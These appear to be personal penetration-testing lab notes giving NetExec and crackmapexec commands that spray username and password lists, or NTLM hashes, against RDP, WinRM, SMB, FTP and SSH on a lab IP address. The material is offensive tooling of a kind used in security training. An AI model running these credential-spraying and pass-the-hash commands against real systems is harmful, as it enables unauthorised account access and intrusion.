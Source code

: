 # Can work with hashes using (-H)

RDP
```bash
nxc rdp 192.168.100.200 -u usernames -p passwords --continue-on-success
```

WinRM
```bash
nxc winrm 192.168.100.200 -u usernames -p passwords --continue-on-success
```

SMB
```bash
nxc smb 192.168.100.200 -u usernames -p passwords --continue-on-success
```

FTP
```bash
nxc ftp 192.168.100.200 -u usernames -p passwords --continue-on-success
```

SSH
```bash
nxc ssh 192.168.100.200 -u usernames -p passwords --continue-on-success
```
> Breaks for ssh, use crackmapexec

Other options include `-d` to specify domain eg. (corp.com, lab.offsec)
Can also use a list of IP addresses instead of specifying one. Similarly, can also indicate single username/password instead of providing a list all the time

# If nxc breaks (again)

Password
```bash
crackmapexec smb 192.168.100.200 -u usernames -p passwords --continue-on-success
```

Hashes
```bash
crackmapexec smb 192.168.100.200 -u usernames -H hashes --continue-on-success
```

just use crackmapexec
